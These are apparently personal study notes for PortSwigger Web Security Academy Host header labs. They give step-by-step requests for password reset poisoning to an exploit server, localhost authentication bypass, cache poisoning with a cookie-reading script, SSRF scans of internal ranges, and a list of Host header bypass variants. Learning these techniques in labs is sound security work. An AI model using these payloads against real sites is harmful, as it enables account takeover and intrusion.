 ## If /admin not found, try:

```
GET /admin HTTP/1.1
Host: 192.168.0.1
```

and u will see this hidden admin, even it was 404 before.

## Basic password reset poisoning

1) Investigate (do) full "Forgot your password?" functionality to your own account.
2) Notice that the POST /forgot-password request is used to trigger the password reset email. This contains the username whose password is being reset as a body parameter.
3) change the Host header to your exploit server's domain name (YOUR-EXPLOIT-SERVER-ID.exploit-server.net) and change the username parameter to carlos. Send the request.
4) Go to your exploit server and open the access log. You will see a request for GET /forgot-password with the temp-forgot-password-token parameter containing Carlos's password reset token.
5) Go to your email client and copy the genuine password reset URL from your first email. Visit this URL in the browser, but replace your reset token with the one you obtained from the access log.

## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.


## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.

## Web cache poisoning via ambiguous requests (x-Cache-hit)

1) Exploit server -> and create a file at `/resources/js/tracking.js` containing the payload `alert(document.cookie)`.
2)
   ```
    GET /?cb=123 HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    ```

## Routing-based SSRF

1) Set `Host: 192.168.0.§0§`; Payload -> numbers from 0 to 255 with step 1.
2) `GET /admin/delete?csrf=QCT5OmPeAAPnyTKyETt29LszLL7CbPop&username=carlos`.
3) Copy the session cookie from the Set-Cookie header in the displayed response and add it to your request.
4) Right-click on your request and select Change request method. Burp will convert it to a `POST` request. Send.

## SSRF via flawed request parsing

1) Observe that you can also access the home page by supplying an absolute URL in the request line as follows:
`GET https://YOUR-LAB-ID.web-security-academy.net/`.
2) It means that its possible now to modify header:
   
   ```
   GET https://YOUR-LAB-ID.web-security-academy.net/
   Host: BURP-COLLABORATOR-SUBDOMAIN
   ```
3)  Go to Intruder and deselect Update Host header to match target. Use the Host header to scan the IP range 192.168.0.0/24.
4)  In Burp Repeater, append /admin to the absolute URL in the request line and send the request. Not you have access.

## Host validation bypass via connection state attack

1) Take `GET /` Request:
   Change the path to /admin.
   Change Host header to 192.168.0.1.
2) you are simply redirected to the homepage. Duplicate the tab, then add both tabs to a new group.
3) In the first tab:
   Change the path back to /.
   Change the Host header back to `YOUR-LAB-ID.h1-web-security-academy.net`.

4) Send `group in sequence (single connection)`. Change the Connection header to keep-alive.

## Bypasses:
```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```

```
Host: target.com
X-Forwarded-Host: admin.target.com
```

```
Host: admin.target.com
```

```
Host: target.com:80
```

```
GET /admin HTTP/1.0
```

```
Host: target.com
X-Original-Host: admin.target.com
```

```
Host: admin%2etarget.com
```

```
Host: target.com.exploit-server.com
```
